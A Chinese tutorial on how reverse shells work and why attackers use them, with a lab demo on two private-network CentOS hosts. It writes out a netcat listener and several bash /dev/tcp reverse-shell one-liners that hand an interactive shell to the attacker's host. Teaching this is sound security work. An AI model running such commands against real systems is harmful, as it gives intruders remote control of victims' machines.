# 原创
：  反弹shell的原理以及应用

# 反弹shell的原理以及应用

### 什么是反弹shell？

反弹shell（reverse shell），指的就是我们的机器监听在某TCP/UDP端口，然后在希望被我们利用的被控机器发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell其实差不多对应，本质上是网络概念的客户端与服务端的角色反转。

### 为什么要反弹shell？

什么时候会用到反弹shell呢？通常我们反弹shell，是因防火墙受限、权限不足或者端口被占用，我们无法直接连接利用，这个时候就应该通过反弹shell来获取命令行。<br/> 就想上面说的，其实反弹shell和telnet、ssh本质上都是差不多的，但telnet、ssh我们称之为正向连接，也就是我们有个基本目标，可以ssh 192.168.xx.xx，但有时候目标机器如果是dhcp获取的地址，很可能你的控制就断了，这个时候反弹shell的作用就很大了。<br/> 有以下情况可以利用反弹shell很好地代替ssh、telnet等正向连接：<br/> 1.某台机中了你的网马，但是它在局域网内，局域网有统一的出口地址，这种情况下你是无法直接连接的。<br/> 2.目标机器的ip动态改变，你无法持续获取主机权限。<br/> 3.由于防火墙等安全设备的限制，被控机器只能发送请求，不能接收请求。<br/> 4.对被控机器的环境不了解，对方的网络环境是什么样的，什么时候开关机等情况都是未知的，所以建立一个服务端让恶意程序主动连接，这样一来就不用担心了。

那么反弹就很好理解了，攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

### 反弹shell的应用

环境：我们可以利用两台CentOS7.6服务器来做实验（以下实验环境为本人搭建，并不是真实攻击）<br/> 攻击端 （我们的电脑）：192.168.83.142<br/> 受害端（被控机器）：192.168.83.130

1、首先我们利用攻击端监听接口信息，假设我们监听6767端口<br/> nc -lvp 6767

2、被控机器直接执行命令<br/> bash -i &gt;&amp; /dev/tcp/192.168.83.142/6767 0&gt;&amp;1<br/>  

<br/> 3、可以看到我们的攻击端已经获取到shell，可以执行命令了

### 实验原理解释

##### 1. nc -lvp 6767

-l 监听，-v 输出交互或出错信息，-p 端口。nc是netcat的简写，可实现任意TCP/UDP端口的侦听，nc可以作为server以TCP或UDP方式侦听指定端口。

##### 2. bash -i

-i interactive。即产生一个交互式的shell（bash）。

##### 3. /dev/tcp/IP/PORT

特殊设备文件（Linux一切皆文件），实际这个文件是不存在的，它只是 bash 实现的用来实现网络请求的一个接口。打开这个文件就相当于发出了一个socket调用并建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。

##### 原理解释

所以实际上反弹shell命令bash -i &gt;&amp; /dev/tcp/192.168.83.142/6767 0&gt;&amp;1是由多条命令构成的，也可以根据把这条命令重组，拆成以下几种情况：<br/> 1、bash -i &gt; /dev/tcp/192.168.83.142/6767<br/> 这种情况下，可以将受害端的标准输出重定向到攻击端，但是是无法在供给端用命令控制受害端的<br/> 2、bash -i &lt; /dev/tcp/192.168.83.142/6767<br/> 这种情况下，可以将攻击端的输入重定向到受害端，但是我们攻击端看不到命令执行结果。<br/> 3、bash -i &gt; /dev/tcp/192.168.83.142/6767 0&gt;&amp;1<br/> 这种情况下，基本实现了反弹shell的功能。但是受害端的机器上依然回显了攻击端机器上执行的命令，且攻击端看不到错误命令的输出。<br/> 4、bash -i &gt; /dev/tcp/192.168.83.142/6767 0&gt;&amp;1 2&gt;&amp;1<br/> 这种情况下，攻击端已获得受害端的远程交互式shell，而且受害端没有再回显攻击端输入的命令。
